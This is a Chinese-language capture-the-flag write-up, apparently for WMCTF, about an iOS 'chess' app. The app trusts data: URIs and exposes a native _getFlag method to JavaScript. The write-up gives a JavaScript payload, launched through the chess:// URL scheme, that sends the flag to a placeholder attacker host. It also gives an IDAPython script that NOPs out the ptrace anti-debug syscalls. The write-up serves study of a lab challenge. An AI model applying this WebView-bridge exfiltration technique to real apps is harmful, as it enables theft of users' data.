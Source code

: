 ![image.png](http://img.l1near.top/63034fae242c0.png)

在该函数中存在一段逻辑，当传入的 URL 的 Scheme 为 data 时，则返回 1。也就是说当传入 URL 是个 Data URi 时则认为该 URL 是个可信的 URL。

当传入的 URL 是一个可信 URL 时，则调用 `injectScriptInterface` ，并且加载 URL：

![image.png](http://img.l1near.top/630350565b093.png)

让我们跟进 `injectScriptInterface` 看下关键逻辑：

![Xnip20220822_175321.png](http://img.l1near.top/Xnip2022-08-22_17-53-21.png)

可以看到将 `WMScriptInterface` 类的方法导出到 js 上下文中，这些 API 被放在全局作用域的 `wmctf` 命名空间里。

然后我们在 IDA 中搜索，惊喜的发现有个 `-[chess.WMScriptInterface _getFlag]` 的函数：

![image.png](http://img.l1near.top/630352619b9c1.png)

此时我们得知可以一个构造 payload 然后通过 URL Scheme 调起 chess 客户端，并执行 `wmctf.$_getFlag()` 来获取到 flag。

构造生成 Payload 的 js 代码：

```javascript
String.prototype.toDataURI = function() {
  return 'data:text/html;,' + encodeURIComponent(this).replace(/[!'()*]/g, escape);
}

function payload() {  
  var xhr = new XMLHttpRequest(); xhr.open('GET', 'http://XXX/test?flag=' + wmctf.$_getFlag(), false); xhr.send();
}

const data = `<script type="application/javascript">(${payload})()<\/script>`.toDataURI()
const url = new URL('chess://x?urlType=web');

url.searchParams.set('url', data);
url.toString()
```

只要将该 URL Scheme 提交（我写了个 webserver，用来接收 payload 并在设备执行），则会在设备执行，并且将 flag 发送到攻击者的服务器。

IDAPython Ptach `svc 0x80`:

```python
import idc
def text_seg_addr_start():
    for seg in Segments():
        if SegName(seg) == '__text':
            addr = hex(SegStart(seg))
            print("text segment address start: " + addr)
            return int(addr[0:-1], 16)
def text_seg_addr_end():
    for seg in Segments():
        if SegName(seg) == '__text':
            addr = hex(SegEnd(seg))
            print("text segment address end: " + addr)
            return int(addr[0:-1], 16)       
start = text_seg_addr_start()
end = text_seg_addr_end()
while start < end:
    m = idc.print_insn_mnem(start)
    n = idc.print_operand(start, 0)
    if m == 'SVC' and n == '0x80':
        # print(idc.GetDisasm(start))
        if idc.print_operand(idc.prev_head(start), 1) == '#0x1A':
            idc.PatchDword(start, 0xD503201F)
            print("patch {} success!".format(hex(start)))
    start += 4
```